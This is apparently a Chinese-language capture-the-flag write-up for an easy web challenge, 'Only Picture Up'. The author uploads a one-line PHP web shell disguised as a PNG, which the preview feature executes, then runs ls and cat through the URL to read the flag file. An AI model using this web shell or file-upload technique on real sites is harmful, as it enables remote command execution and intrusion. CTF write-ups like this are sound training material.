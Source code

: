 # ?CTF 2025 Platform(公开赛道)[Week2] Only Picture Up (难度：Easy)
**Writer：DreamLost（QQ ID：Scarlet Secret）**<br>
**Solve Time: 2025-10-11 15:08:08**<br>
**Rank #21**<br>
## 题目背景
咦？上传一个图片就能得到flag？<br>

## 解题思路
这是一个十分经典的**不检查文件内容**便直接上传
进入靶机的web页面，随便上传一张正常的图片，并点击下面的“Preview”
即访问：`http://challenge.ilovectf.cn:30240/?preview=test.png`<br>
浏览器返回了这样的信息：`Parse error: syntax error, unexpected '?', expecting end of file in /var/www/html/uploads/test.png on line 84`

这刚好证实了我一开始的猜想，而且**试图把png图片文件当成php文件执行**

那还说啥，直接构造这样的php脚本（名字随意，这里在windows11下创建demo.txt）
```php
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
改成demo.png之后直接上传并点击preview
虽然浏览器返回了空页面，但是我们仍然可以正常执行，只需要加上`&cmd=`

让我们试试执行一次llinux上最常用的ls
`http://challenge.ilovectf.cn:30240/?preview=demo.png&cmd=ls`<br>

返回：`index.php uploads`
不用担心，虽然用户是www-data，但是我们不妨去碰碰运气，先去根目录下看看，因为如果使用“find”或者“grep”来大规模搜索，web服务很可能会失去响应。
```php
http://challenge.ilovectf.cn:30240/?preview=demo.png&cmd=ls%20/
FL4g94 bin dev etc home init.sh lib media mnt opt proc root run sbin srv sys tmp usr var
```
我们看见根目录下有个神秘文件FL4g94，那很可能藏着我们正在寻找的flag
立刻在webshell使用cat，得到：
```php
http://challenge.ilovectf.cn:30240/?preview=demo.png&cmd=cat%20/FL4g94
flag{fff3a839-714d-436c-95ce-9788fe586806}
```
至此，flag已出
